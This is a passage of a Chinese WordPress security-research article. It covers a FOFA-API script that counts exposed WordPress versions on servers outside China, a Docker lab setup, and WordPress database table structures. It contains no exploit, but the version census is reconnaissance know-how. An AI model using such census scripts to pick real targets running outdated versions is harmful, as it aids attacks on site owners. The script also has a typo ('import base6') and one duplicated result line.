# wordpress 安全技术研究 - 先知社区

wordpress 安全技术研究

- - -

## 0.主流版本测绘

-   branch.txt 内容爬取[https://github.com/WordPress/WordPress/branches](https://github.com/WordPress/WordPress/branches)
-   通过 fofa-api 搜索 wordpress-{branch-version} && country!="CN"来粗略统计境外 wordpress 各版本占有率
-   不考虑指纹伪造
-   不考虑蜜罐

```plain
import requests
import base6
import time
import json

url = "https://fofa.info/api/v1/search/all?email=&key=&qbase64="

with open('branch.txt','r+') as f:
    results = []
    for i in f.readlines():
        query = f'"wordpress-{i.strip()}" && country!="CN"'
        query = query.encode('utf-8')
        res = requests.get(url+base64.b64encode(query).decode()).text
        json_res = json.loads(res)
        size = json_res['size']
        results.append((i.strip(), size))

        time.sleep(3)

    sorted_results = sorted(results, key=lambda x: x[1], reverse=True)

    for item in sorted_results:
        print(f'境外服务器wordpress{item[0]}的数量为：{item[1]}')
```

```plain
境外服务器 wordpress4.5 的数量为：718094
境外服务器 wordpress6.0 的数量为：571377
境外服务器 wordpress4.8 的数量为：432132
境外服务器 wordpress2.5 的数量为：283633
境外服务器 wordpress6.1 的数量为：225618
境外服务器 wordpress5.3 的数量为：84358
境外服务器 wordpress5.3 的数量为：84358
境外服务器 wordpress4.1 的数量为：60874
境外服务器 wordpress5.9 的数量为：48913
境外服务器 wordpress5.8 的数量为：34542
境外服务器 wordpress5.6 的数量为：29029
境外服务器 wordpress2.8 的数量为：23605
境外服务器 wordpress5.7 的数量为：23375
境外服务器 wordpress5.4 的数量为：11904
境外服务器 wordpress5.5 的数量为：10843
境外服务器 wordpress5.0 的数量为：8106
境外服务器 wordpress5.2 的数量为：5474
境外服务器 wordpress3.1 的数量为：5428
境外服务器 wordpress5.1 的数量为：5373
境外服务器 wordpress3.6 的数量为：3308
境外服务器 wordpress4.6 的数量为：3065
境外服务器 wordpress4.0 的数量为：2992
境外服务器 wordpress3.0 的数量为：2788
境外服务器 wordpress4.7 的数量为：2110
境外服务器 wordpress3.5 的数量为：2094
境外服务器 wordpress3.3 的数量为：2075
境外服务器 wordpress4.3 的数量为：1934
境外服务器 wordpress4.9 的数量为：1838
境外服务器 wordpress4.4 的数量为：1774
境外服务器 wordpress2.7 的数量为：1558
境外服务器 wordpress3.4 的数量为：1251
境外服务器 wordpress3.9 的数量为：945
境外服务器 wordpress1.5 的数量为：863
境外服务器 wordpress3.8 的数量为：757
境外服务器 wordpress4.2 的数量为：381
境外服务器 wordpress2.6 的数量为：234
境外服务器 wordpress3.2 的数量为：220
境外服务器 wordpress2.9 的数量为：219
境外服务器 wordpress2.3 的数量为：209
境外服务器 wordpress2.0 的数量为：200
境外服务器 wordpress3.7 的数量为：158
境外服务器 wordpress2.2 的数量为：152
境外服务器 wordpress2.1 的数量为：152
```

[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1682085135767-4b14331b-3aad-4faa-91e1-5fc964a85a4b.png#averageHue=%23010101&clientId=ueb421bfe-1796-4&from=paste&height=500&id=uac645a68&originHeight=1000&originWidth=1800&originalType=binary&ratio=2&rotation=0&showTitle=false&size=188804&status=done&style=none&taskId=u124028da-8467-4e58-84de-b9cc5168a83&title=&width=900)  
Top5: [4.5](https://github.com/WordPress/WordPress/tree/4.5-branch)、[6.0](https://github.com/WordPress/WordPress/tree/6.0-branch)、[4.8](https://github.com/WordPress/WordPress/tree/4.8-branch)、[2.5](https://github.com/WordPress/WordPress/tree/2.5-branch)、[6.1](https://github.com/WordPress/WordPress/tree/6.1-branch)

# 1.使用研究

## 1.1 环境搭建

> 测试环境整体采用 docker 部署，主要部署主流版本来进行漏洞复现及相关研究。

### 1.1.1 wordpress4.5

```plain
version: '3.9'
services:
  db:
    image: mariadb:10.6.4-focal
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: 123456
      MYSQL_DATABASE: wordpress
    volumes:
      - ./database:/var/lib/mysql

  wordpress:
    depends_on:
      - db
    image: wordpress:4.5-apache
    restart: always
    ports:
      - 80:80
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: root
      WORDPRESS_DB_PASSWORD: 123456
    volumes:
      - ./html:/var/www/html
```

「初始化过程略」  
[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1681999502912-a91d2048-9280-432c-9978-b6b9dbed306b.png#averageHue=%23e3e3e3&clientId=uc2709edc-b9f7-4&from=paste&height=868&id=ue23e5315&originHeight=1736&originWidth=3082&originalType=binary&ratio=2&rotation=0&showTitle=false&size=452210&status=done&style=none&taskId=u9607e5b7-d86f-4283-8c13-9a3475919ba&title=&width=1541)

### 1.1.2 wordpress 目录结构说明

1.  **根目录文件**：这些是 WordPress 的核心文件，用于处理请求和加载其他文件。
    -   **index.php**：网站的主入口文件。
    -   **license.txt**：WordPress 的许可证文件。
    -   **readme.html**：安装和升级信息的 HTML 文件。
    -   **wp-activate.php**：激活新用户的脚本。
    -   **wp-blog-header.php**：加载 WordPress 环境和模板。
    -   **wp-comments-post.php**：处理发表评论的请求。
    -   **wp-config-sample.php**：WordPress 配置文件的样本。
    -   **wp-config.php**：WordPress 的主配置文件，包含数据库信息等设置。
    -   **wp-cron.php**：处理 WordPress 计划任务的脚本。
    -   **wp-links-opml.php**：用于 OPML 格式的链接导出。
    -   **wp-load.php**：加载 WordPress 的核心文件。
    -   **wp-login.php**：登录页面的主文件。
    -   **wp-mail.php**：通过电子邮件发布文章的脚本。
    -   **wp-settings.php**：设置 WordPress 变量和包含文件。
    -   **wp-signup.php**：新用户注册的脚本。
    -   **wp-trackback.php**：处理 trackback 请求的脚本。
    -   **xmlrpc.php**：实现 XML-RPC 协议支持。
2.  **wp-admin**：包含 WordPress 后台管理相关的文件。
    -   这个目录包含了控制 WordPress 仪表盘和管理功能的所有脚本和文件。
3.  **wp-content**：用户内容和扩展的存储地。
    -   这个目录包含主题（**themes**）、插件（**plugins**）和上传的文件（**uploads**）。
4.  **wp-includes**：包含 WordPress 的主要 PHP 库和辅助脚本。
    -   这个目录包含了 WordPress 运行所需的大部分核心功能代码。

## 1.2 数据库表结构与内容研究

```plain
MariaDB [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |  存储评论元数据
| wp_comments           |  存储网站评论
| wp_links              |  存储网站友情链接
| wp_options            |  存储 wordpress 设置和选项、主题配置等
| wp_postmeta           |  存储文章的元数据
| wp_posts              |  存储网站文章
| wp_term_relationships |  存储分类、标签和帖子之间的关系
| wp_term_taxonomy      |  存储每个目录、标签所对应的分类
| wp_termmeta           |  存储目录、标签对应的元数据
| wp_terms              |  存储每个目录、标签
| wp_usermeta           |  存储用户的元数据
| wp_users              |  存储用户
+-----------------------+
12 rows in set (0.003 sec)
```

### 1.2.1 Metadata 元数据

注意到在十二张数据表中有四张表带有 meta 关键字，其中存储的就是相关信息的元数据  
在翻阅许多文献后可以总结元数据的定义 -- “data about data”关于数据的数据  
例如，对于一篇文章，它的元数据可以包含作者、发布日期、标签、分类、评论数、浏览量等信息，这些元数据存储在 wp\_postmeta 表中。这些元数据可以被 wordpress 主题、插件使用，为网站提供更多的灵活性和扩展性。  
[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1682089125395-9512da71-2627-4ee3-b3b1-608fefb12bb0.png#averageHue=%23202227&clientId=ueb421bfe-1796-4&from=paste&height=855&id=u21d2a95f&originHeight=1710&originWidth=1380&originalType=binary&ratio=2&rotation=0&showTitle=false&size=297499&status=done&style=none&taskId=u7648658e-6564-4d19-8fcd-dd9d0473023&title=&width=690)  
这四张表的字段交集为：meta\_id、meta\_key、meta\_value  
NISO 把元数据分为了描述性、结构性、管理性三类

> 结构化的元数据（Structural metadata）是有关数据结构的设计和说明，通常叫做“关于数据容器的数据（data about the containers of data）；描述性的元数据（descriptive metadata），关于应用程序数据和数据内容的单个实例 ...

按照这个定义，wordpress 使用描述性元数据。  
而在 wordpress 中，数据与元数据的定义边界模糊不清。定义元数据也不等于它就会被存储于元数据表中，比如：  
post\_type 应该属于元数据的范畴，可是它被存储在 wp\_posts 中，而非 wp\_postmeta  
[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1682088737231-8cde4370-a6cd-4b4c-844d-2038adb5d170.png#averageHue=%2321242a&clientId=ueb421bfe-1796-4&from=paste&height=602&id=ud8f8f058&originHeight=1204&originWidth=1780&originalType=binary&ratio=2&rotation=0&showTitle=false&size=263056&status=done&style=none&taskId=ubd513985-08e4-4739-8128-1366659c092&title=&width=890)

### 1.2.2 关于文章 \[wp\_posts && wp\_postmeta\]

#### wp\_posts 表结构

```plain
MariaDB [wordpress]> desc wp_posts;
+-----------------------+---------------------+------+-----+---------------------+----------------+
| Field                 | Type                | Null | Key | Default             | Extra          |
+-----------------------+---------------------+------+-----+---------------------+----------------+
| ID                    | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| post_author           | bigint(20) unsigned | NO   | MUL | 0                   |                |
| post_date             | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| post_date_gmt         | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| post_content          | longtext            | NO   |     | NULL                |                |
| post_title            | text                | NO   |     | NULL                |                |
| post_excerpt          | text                | NO   |     | NULL                |                |
| post_status           | varchar(20)         | NO   |     | publish             |                |
| comment_status        | varchar(20)         | NO   |     | open                |                |
| ping_status           | varchar(20)         | NO   |     | open                |                |
| post_password         | varchar(20)         | NO   |     |                     |                |
| post_name             | varchar(200)        | NO   | MUL |                     |                |
| to_ping               | text                | NO   |     | NULL                |                |
| pinged                | text                | NO   |     | NULL                |                |
| post_modified         | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| post_modified_gmt     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| post_content_filtered | longtext            | NO   |     | NULL                |                |
| post_parent           | bigint(20) unsigned | NO   | MUL | 0                   |                |
| guid                  | varchar(255)        | NO   |     |                     |                |
| menu_order            | int(11)             | NO   |     | 0                   |                |
| post_type             | varchar(20)         | NO   | MUL | post                |                |
| post_mime_type        | varchar(100)        | NO   |     |                     |                |
| comment_count         | bigint(20)          | NO   |     | 0                   |                |
+-----------------------+---------------------+------+-----+---------------------+----------------+
23 rows in set (0.004 sec)
```

```plain
ID  自增唯一 ID
post_author 对应作者 ID
post_date   发布时间
post_date_gmt   发布时间（GMT+0 时间）
post_content    正文
post_title  标题
post_excerpt    摘要
post_status 文章状态 (publish/auto-draft/inherit 等)
comment_status  评论状态 (open/closed)
ping_status ping 状态（open/closed）
post_password   文章密码
post_name   文章缩略名
to_ping 文章待 ping 的 url 列表
pinged  已经 ping 过的链接
post_modified   修改时间
post_modified_gmt   修改时间（GMT+0 时间）
post_content_filtered   转换后的内容
post_parent 父文章
guid    全局唯一标识符
menu_order  排序 ID
post_type   文章类型
post_mime_type  MIME 类型
comment_count   评论总数
```

#### 数据内容研究

新建一篇文章，查询 wp\_posts 内容，抽取一条数据作为示例

```plain
*************************** 5. row ***************************
                   ID: 5
          post_author: 1
            post_date: 2023-04-22 14:41:42
        post_date_gmt: 2023-04-22 06:41:42
         post_content: 中华民族伟大复兴！
           post_title: 喜迎建党 101 周年
         post_excerpt:
          post_status: publish
       comment_status: open
          ping_status: open
        post_password: 123456
            post_name: %e5%96%9c%e8%bf%8e%e5%bb%ba%e5%85%9a101%e5%91%a8%e5%b9%b4
              to_ping:
               pinged:
        post_modified: 2023-04-24 10:41:50
    post_modified_gmt: 2023-04-24 02:41:50
post_content_filtered:
          post_parent: 0
                 guid: http://localhost/?p=5
           menu_order: 0
            post_type: post
       post_mime_type:
        comment_count: 0
```

##### post\_author

作者 ID  
对应的用户名存储在 wp\_users 表中对应 user\_login 字段

```plain
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | may        | $P$BIhCqMiD2uzJeO6twupZ5mLxywmI011 | may           | 12345@qq.com |          | 2023-04-20 14:04:10 |                     |           0 | may          |
+----+------------+------------------------------------+---------------+-------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.001 sec)
```

##### post\_date\_gmt

格林威治时间比北京时间早八小时

##### post\_status

文章状态有以下八种状态：

```plain
1. publish：文章已经发布，可以在网站上被
  2. 所有人查看。
  3. pending：文章等待审核，暂时不会在网站上出现。
  4. draft：文章正在编辑中，还没有准备好发布。
  5. auto-draft：WordPress 在后台自动保存草稿，这种状态意味着文章还没有保存为草稿。
  6. future：文章将在未来的特定时间发布，这是一种预定状态。
  7. private：文章是私有的，只有被授权的用户才能查看。
  8. inherit：文章从其他文章继承状态。
  9. trash：文章被放入回收站，等待被永久删除或还原。
```

##### post\_password

文章密码（明文存储）

##### post\_name

文章名字 内容非英文的情况下会对字符进行编码 解码方式如下

```plain
import urllib.parse

encoded_str = '%e5%96%9c%e8%bf%8e%e5%bb%ba%e5%85%9a101%e5%91%a8%e5%b9%b4'
decoded_str = urllib.parse.unquote(encoded_str, encoding='utf-8')
print(decoded_str)

result:喜迎建党 101 周年
```

##### to\_ping && pinged

这两个字段用于存储将要 ping 和已 ping 过的网站  
pingback 技术用于通知一个网页或博客其文章被引用，文章被广泛引用有助于 SEO 优化。  
pingback 通过 post 请求发送，包含通知的内容包括引用文章的标题、URL、引用页面的标题和 URL 等信息。

```plain
POST /xmlrpc.php HTTP/1.0
User-Agent: Pinger/1.0
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 236

<?xml version="1.0"?>
<methodCall>
    <methodName>pingback.ping</methodName>
    <params>
        <param>
            <value><string>http://example.com/entry/1234</string></value>
        </param>
        <param>
            <value><string>http://blog.example.com/entry/5678</string></value>
        </param>
    </params>
</methodCall>
```

##### port\_modified\[\_gmt\]

文章修改时间（gmt 时区）

##### post\_content\_filtered

对敏感词/文章格式化后存储的字段

##### post\_prent

文章的父 ID，没有父 ID 则为 0，有父 ID 的情况是文章被修改，那么上一个版本的 ID 就是父 ID

##### guid

全局唯一标识符，被用作文章永久链接，比如长这样：[http://localhost/2023/04/24/5-revision-v1/](http://localhost/2023/04/24/5-revision-v1/)

##### menu\_order

文章在后台排序的位置

##### post\_type

文章类型，在 wordpress 中默认有 post 与 page 两种类型

##### post\_mime\_type

用于存储 wordpress 中上传媒体文件的 MIME 类型

##### comment\_count

存储文章评论数量

#### wp\_postmeta 表结构

```plain
MariaDB [wordpress]> desc wp_postmeta;
+------------+---------------------+------+-----+---------+----------------+
| Field      | Type                | Null | Key | Default | Extra          |
+------------+---------------------+------+-----+---------+----------------+
| meta_id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| post_id    | bigint(20) unsigned | NO   | MUL | 0       |                |
| meta_key   | varchar(255)        | YES  | MUL | NULL    |                |
| meta_value | longtext            | YES  |     | NULL    |                |
+------------+---------------------+------+-----+---------+----------------+
4 rows in set (0.015 sec)
```

#### 数据内容研究

```plain
MariaDB [wordpress]> select * from wp_postmeta;
+---------+---------+------------------------------------------+--------------------+
| meta_id | post_id | meta_key                                 | meta_value         |
+---------+---------+------------------------------------------+--------------------+
|       1 |       2 | _wp_page_template                        | default            |
|       2 |       1 | _edit_lock                               | 1682002379:1       |
|       3 |       1 | _wp_trash_meta_status                    | publish            |
|       4 |       1 | _wp_trash_meta_time                      | 1682002381         |
|       5 |       1 | _wp_desired_post_slug                    | hello-world        |
|       6 |       1 | _wp_trash_meta_comments_status           | a:1:{i:3;s:1:"1";} |
|       7 |       5 | _edit_last                               | 1                  |
|       8 |       5 | _edit_lock                               | 1682305790:1       |
|      11 |       5 | _oembed_05b3ec012fcc6815135ccd86d77d21e3 | {{unknown}}        |
+---------+---------+------------------------------------------+--------------------+
```

-   \_wp\_page\_template：页面模板文件的路径。
-   \_edit\_lock：当前文章或页面的编辑锁定信息。
-   \_wp\_trash\_meta\_status：文章或页面是否在回收站中的状态。
-   \_wp\_trash\_meta\_time：文章或页面进入回收站的时间戳。
-   \_wp\_desired\_post\_slug：希望使用的文章或页面 slug。
-   \_wp\_trash\_meta\_comments\_status：文章或页面评论状态，例如是否允许评论。
-   \_edit\_last：最后一次编辑文章或页面的用户 ID。
-   *oembed*：与嵌入式内容相关的信息。

### 1.2.3 关于评论 \[wp\_commentmeta & wp-comments\]

#### wp-comments 表结构

```plain
MariaDB [wordpress]> desc wp_comments;
+----------------------+---------------------+------+-----+---------------------+----------------+
| Field                | Type                | Null | Key | Default             | Extra          |
+----------------------+---------------------+------+-----+---------------------+----------------+
| comment_ID           | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| comment_post_ID      | bigint(20) unsigned | NO   | MUL | 0                   |                |
| comment_author       | tinytext            | NO   |     | NULL                |                |
| comment_author_email | varchar(100)        | NO   | MUL |                     |                |
| comment_author_url   | varchar(200)        | NO   |     |                     |                |
| comment_author_IP    | varchar(100)        | NO   |     |                     |                |
| comment_date         | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| comment_date_gmt     | datetime            | NO   | MUL | 0000-00-00 00:00:00 |                |
| comment_content      | text                | NO   |     | NULL                |                |
| comment_karma        | int(11)             | NO   |     | 0                   |                |
| comment_approved     | varchar(20)         | NO   | MUL | 1                   |                |
| comment_agent        | varchar(255)        | NO   |     |                     |                |
| comment_type         | varchar(20)         | NO   |     |                     |                |
| comment_parent       | bigint(20) unsigned | NO   | MUL | 0                   |                |
| user_id              | bigint(20) unsigned | NO   |     | 0                   |                |
+----------------------+---------------------+------+-----+---------------------+----------------+
15 rows in set (0.004 sec)
```

```plain
comment_ID 自增评论 id
comment_post_ID 对应文章 ID
comment_author_email 评论者邮箱
comment_author_url 评论者网址
comment_author_IP 评论者 IP
comment_date 评论时间
comment_content 评论正文
comment_karma 评论好感度（）
comment_approved 评论是否过审
comment_agent 评论者 user_agent
comment_type 一般为空或 null，
comment_parent 父评论 ID
```

#### 数据内容研究

添加一条评论，查询 wp\_comments 内容，抽取一条数据作为示例数据  
[](https://cdn.nlark.com/yuque/0/2023/png/21402865/1683210153948-7d12e983-efb4-48b5-802c-b1172396beb9.png#averageHue=%23e6e6e6&clientId=u09f1c884-f146-4&from=paste&height=816&id=u77d25f65&originHeight=1632&originWidth=2962&originalType=binary&ratio=2&rotation=0&showTitle=false&size=309748&status=done&style=none&taskId=u6e6332b9-ce53-4b18-95ba-1e5860e70f9&title=&width=1481)

```plain
MariaDB [wordpress]> select * from wp_comments\G;
*************************** 1. row ***************************
comment_ID: 4
comment_post_ID: 5
comment_author: may
comment_author_email: 1234567@qq.com
comment_author_url: http://xmay.com
comment_author_IP: 172.22.0.1
comment_date: 2023-05-04 22:19:17
comment_date_gmt: 2023-05-04 14:19:17
comment_content: 高举中国特色社会主义伟大旗帜，全面贯彻新时代中国特色社会主义思想，弘扬伟大建党精神，自信自强、守正创新，踔厉奋发、勇毅前行，为全面建设社会主义现代化国家、全面推进中华民族伟大复兴而团结奋斗。
comment_karma: 0
comment_approved: 0
comment_agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
comment_type:
comment_parent: 0
user_id: 0
1 row in set (0.005 sec)
```

-   comment\_ID：评论 ID
-   comment\_post\_ID：评论所属文章或页面的 ID
-   comment\_author：评论者名称
-   comment\_author\_email：评论者提供的邮箱地址
-   comment\_author\_url：评论者提供的网站或博客地址
-   comment\_author\_IP：评论者的 IP 地址
-   comment\_date：评论发表的日期 时间
-   comment\_date\_gmt：GMT 时区的评论发表日期和时间
-   comment\_content：评论的内容
-   comment\_karma：评论的积分值（根据评论的质量和交互情况来决定）
-   comment\_approved：评论的审核状态，0 为未审核，1 表示审核通过
-   comment\_agent：评论者的浏览器 UA
-   comment\_type：评论类型。pingback 或 trackback，否则为空
-   comment\_parent：评论的父评论 ID，如果该评论是顶级评论，则该字段为 0
-   user\_id：评论者的用户 ID，如果评论者不是 wp 注册用户，则该字段的值为 0

#### wp\_commenmeta 表结构

```plain
MariaDB [wordpress]> desc wp_commentmeta;
+------------+---------------------+------+-----+---------+----------------+
| Field      | Type                | Null | Key | Default | Extra          |
+------------+---------------------+------+-----+---------+----------------+
| meta_id    | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| comment_id | bigint(20) unsigned | NO   | MUL | 0       |                |
| meta_key   | varchar(255)        | YES  | MUL | NULL    |                |
| meta_value | longtext            | YES  |     | NULL    |                |
+------------+---------------------+------+-----+---------+----------------+
4 rows in set (0.006 sec)
```

### 1.2.4 关于用户 \[wp\_user && wp\_usermeta\]

#### wp\_user 表结构

```plain
MariaDB [wordpress]> desc wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
